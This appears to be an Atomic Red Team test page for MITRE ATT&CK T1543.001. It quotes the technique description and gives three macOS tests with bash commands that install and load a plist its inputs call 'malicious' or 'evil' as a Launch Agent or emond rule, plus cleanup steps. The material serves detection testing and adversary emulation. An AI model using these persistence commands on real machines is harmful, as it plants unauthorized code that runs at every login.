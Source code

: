 # T1543.001 - Create or Modify System Process: Launch Agent
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1543/001)
<blockquote>

Adversaries may create or modify launch agents to repeatedly execute malicious payloads as part of persistence. When a user logs in, a per-user launchd process is started which loads the parameters for each launch-on-demand user agent from the property list (.plist) file found in <code>/System/Library/LaunchAgents</code>, <code>/Library/LaunchAgents</code>, and <code>~/Library/LaunchAgents</code>.(Citation: AppleDocs Launch Agent Daemons)(Citation: OSX Keydnap malware) (Citation: Antiquated Mac Malware) Property list files use the <code>Label</code>, <code>ProgramArguments </code>, and <code>RunAtLoad</code> keys to identify the Launch Agent's name, executable location, and execution time.(Citation: OSX.Dok Malware) Launch Agents are often installed to perform updates to programs, launch user specified programs at login, or to conduct other developer tasks.

 Launch Agents can also be executed using the [Launchctl](https://attack.mitre.org/techniques/T1569/001) command.
 
Adversaries may install a new Launch Agent that executes at login by placing a .plist file into the appropriate folders with the <code>RunAtLoad</code> or <code>KeepAlive</code> keys set to <code>true</code>.(Citation: Sofacy Komplex Trojan)(Citation: Methods of Mac Malware Persistence) The Launch Agent name may be disguised by using a name from the related operating system or benign software. Launch Agents are created with user level privileges and execute with user level permissions.(Citation: OSX Malware Detection)(Citation: OceanLotus for OS X) 

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Launch Agent](#atomic-test-1---launch-agent)

- [Atomic Test #2 - Event Monitor Daemon Persistence](#atomic-test-2---event-monitor-daemon-persistence)

- [Atomic Test #3 - Launch Agent - Root Directory](#atomic-test-3---launch-agent---root-directory)


<br/>

## Atomic Test #1 - Launch Agent
Create a plist and execute it

**Supported Platforms:** macOS


**auto_generated_guid:** a5983dee-bf6c-4eaf-951c-dbc1a7b90900





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| plist_filename | filename | string | com.atomicredteam.plist|
| path_malicious_plist | Name of file to store in cron folder | string | $PathToAtomicsFolder/T1543.001/src/atomicredteam_T1543_001.plist|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
if [ ! -d ~/Library/LaunchAgents ]; then mkdir ~/Library/LaunchAgents; fi;
sudo cp #{path_malicious_plist} ~/Library/LaunchAgents/#{plist_filename}
sudo launchctl load -w ~/Library/LaunchAgents/#{plist_filename}
```

#### Cleanup Commands:
```bash
sudo launchctl unload ~/Library/LaunchAgents/#{plist_filename}
sudo rm ~/Library/LaunchAgents/#{plist_filename}
```



#### Dependencies:  Run with `bash`!
##### Description: The shared library must exist on disk at specified location (#{path_malicious_plist})
##### Check Prereq Commands:
```bash
if [ -f #{path_malicious_plist} ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```bash
echo "The shared library doesn't exist. Check the path"; exit 1;
```




<br/>
<br/>

## Atomic Test #2 - Event Monitor Daemon Persistence
This test adds persistence via a plist to execute via the macOS Event Monitor Daemon.

**Supported Platforms:** macOS


**auto_generated_guid:** 11979f23-9b9d-482a-9935-6fc9cd022c3e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| script_location | evil plist location | path | $PathToAtomicsFolder/T1543.001/src/atomicredteam_T1543_001.plist|
| script_destination | Path where to move the evil plist | path | /etc/emond.d/rules/atomicredteam_T1543_001.plist|
| empty_file | Random name of the empty file used to trigger emond service | string | randomflag|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
sudo cp #{script_location} #{script_destination}
sudo touch /private/var/db/emondClients/#{empty_file}
```

#### Cleanup Commands:
```bash
sudo rm #{script_destination}
sudo rm /private/var/db/emondClients/#{empty_file}
```





<br/>
<br/>

## Atomic Test #3 - Launch Agent - Root Directory
Create a plist and execute it

**Supported Platforms:** macOS


**auto_generated_guid:** 66774fa8-c562-4bae-a58d-5264a0dd9dd7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| plist_filename | filename | string | com.atomicredteam.T1543.001.plist|
| path_malicious_plist | Name of file to store in cron folder | string | $PathToAtomicsFolder/T1543.001/src/atomicredteam_T1543_001.plist|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
sudo cp #{path_malicious_plist} /Library/LaunchAgents/#{plist_filename}
launchctl load -w /Library/LaunchAgents/#{plist_filename}
```

#### Cleanup Commands:
```bash
launchctl unload /Library/LaunchAgents/#{plist_filename}
sudo rm /Library/LaunchAgents/#{plist_filename}
sudo rm /tmp/T1543_001_atomicredteam.txt
```



#### Dependencies:  Run with `bash`!
##### Description: /Library/LaunchAgents must exist
##### Check Prereq Commands:
```bash
if [ ! -d /Library/LaunchAgents ]; then mkdir /Library/LaunchAgents; exit 0; fi;
```
##### Get Prereq Commands:
```bash
echo "Failed to create /Library/LaunchAgents"; exit 1;
```
##### Description: The shared library must exist on disk at specified location (#{path_malicious_plist})
##### Check Prereq Commands:
```bash
if [ -f #{path_malicious_plist} ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```bash
echo "The plist file doesn't exist. Check the path and try again."; exit 1;
```




<br/>
